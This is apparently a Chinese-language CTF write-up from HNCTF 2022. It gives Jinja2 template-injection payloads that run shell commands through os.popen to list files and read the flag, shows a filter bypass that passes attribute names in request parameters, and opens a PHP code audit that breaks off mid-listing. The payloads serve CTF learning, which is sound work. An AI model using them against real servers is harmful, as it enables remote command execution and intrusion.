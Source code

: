 通过name传参

不过这道题过滤了一些东西

我比较喜欢的一个payload：

```
{{lipsum.__globals__.__getitem__('os').popen('ls').read()}}
```

但是被检测到了

那想想怎么绕过

```
{{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=ls
```

通过引入参数是可以的

看看别人的wp

```
?name={{config[request.values.a][request.values.b][request.values.c][request.values.d].popen(request.values.f).read()}}&a=class&b=init&c=globals&d=os&f=cat flag
```

或者

```
?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=globals&b=os&c=cat /flag
```

方法很多。

## Fun\_php

审计代码

```
<?php
error_reporting(0);
highlight_file(__FILE__);
include "k1y.php";
include "fl4g.php";
$week_1 = false;
$week_2 = false;

$getUserID = @$_GET['user']; 
$getpass = (int)@$_GET['pass']; 
$getmySaid = @$_GET['mySaid']; 
$getmyHeart = @$_GET['myHeart']; 

$data = @$_POST['data'];
$verify =@$_POST['verify'];
$want = @$_POST['want'];
$final = @$_POST['final'];

if("Welcom"==0&&"T0"==0&&"1he"==1&&"HNCTF2022"==0)
    echo "Welcom T0 1he HNCTF2022<BR>";

if("state_HNCTF2022" == 1) echo $hint;
    else echo "HINT? NoWay~!<BR>";

if(is_string($getUserID))
    $user = $user + $getUserID; //u5er_D0_n0t_b3g1n_with_4_numb3r

if($user == 114514 && $getpass == $pass){
    if (!ctype_alpha($getmySaid)) 
```